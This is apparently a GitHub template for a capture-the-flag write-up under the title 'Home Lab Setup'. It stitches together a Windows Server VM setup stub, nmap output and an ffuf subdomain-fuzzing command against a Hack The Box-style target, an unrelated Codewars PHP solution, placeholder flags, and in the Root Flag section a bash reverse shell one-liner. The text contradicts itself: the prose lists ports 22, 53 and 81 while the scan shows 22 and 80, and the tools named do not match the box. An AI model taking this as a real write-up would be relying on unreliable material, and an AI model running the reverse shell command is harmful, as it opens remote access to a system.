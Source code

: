 **Title**: "Home Lab Setup"

**Author**: Tarell King

**Tools Used**: [Windows server, AD (Active Directory), xx ]

## Table of Contents
1. [Introduction](#introduction)
2. [Setting up Virtual Environment](#setting-up-virtual-environment)
   - [Prerequisites](#prerequisites)
   - [Windows Server Installation](#windows-server-installation)
3. [Another Section](#another-section)
   - [Enumeration](#enumeration)
   - [Fuzzing](#fuzzing)
   - [User Flag](#user-flag)
   - [Root Flag](#root-flag)
4. [Conclusion](#conclusion)
5. [References](#references)

## Intro
##  Setting up virtual enviorment  **Prerequsites Virtaul box or another virtualization software, windows server iso**

We begin by installig windows server in a virtual machine. 

Create a Windows 10 Virtal machine and assign the windows server iso in the storage devices.

![image](https://github.com/TarellKing/Home-Lab/assets/121117376/4f3948b9-315c-4803-a6ef-cad8ed72a8cb)




## Another-Section
```console

┌──(tarell㉿kali)-[~]
└─$ sudo nmap -sV 10.10.11.11

Starting Nmap 7.94 ( https://nmap.org ) at 2024-06-22 22:42 EDT
Nmap scan report for 10.10.11.11
Host is up (0.097s latency).
Not shown: 998 closed tcp ports (reset)
```

#Enumeration

```console

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.31 seconds
```

From the above output we can see that ports, 22, 53, and 81 are the ports open. 



# Fuzzing  

Perform a sub-domain/vhost fuzzing scan on ‘*.board.htb’ using the provided IP address. To achieve this, use a wordlist of common subdomains. This wordlist will try each entry as a subdomain for ‘board.htb’. Here is the command:
```console

ffuf -w Desktop/wordlist.txt -u http://board.htb/ -H "host:FUZZ.board.htb" -H "Content-Type: application/x-www-form-urlencoded" -fs 15949 -c 

```
after fuzzing we can see that x was found 



























```php
function sqInRect($lng, $wdth) {

    if($lng == $wdth) {
      return null;
    }

    $squares = array();

    while($lng*$wdth >= 1) {
      if($lng>$wdth) {
        $base = $wdth;
        $lng = $lng - $base;
      }
      else {
        $base = $lng;
        $wdth = $wdth - $base;
      }
      array_push($squares, $base);
    }
    return $squares;
}
```
Above is the php code for the **Rectangle into Squares** kata solution from codewars.


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


![Root](./images/root.png)
\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)
